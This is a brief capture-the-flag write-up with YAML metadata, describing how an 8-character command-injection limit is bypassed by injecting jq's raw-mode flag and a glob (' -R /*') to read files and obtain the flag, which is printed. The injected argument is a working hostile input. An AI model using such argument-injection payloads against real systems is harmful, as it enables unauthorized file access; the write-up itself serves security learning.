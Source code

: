 ```yaml
---
ai_date: '2025-04-27 05:23:41'
ai_summary: Command injection via 'raw' mode in jq, exploiting with limited characters
ai_tags:
- cmd-inj
- jq
- 8char-limit
created: 2024-06-22T18:48
points: 199
solves: 92
updated: 2024-08-05T09:51
---
```


Command injection, except I can't use commands, because its 8 char max.

Well jq has a raw mode `-R`, so we will use that

```
' -R /*'
"FLAG{jqj6jqjqjqjqjqj6jqjqjqjqj6jqjqjq}"
```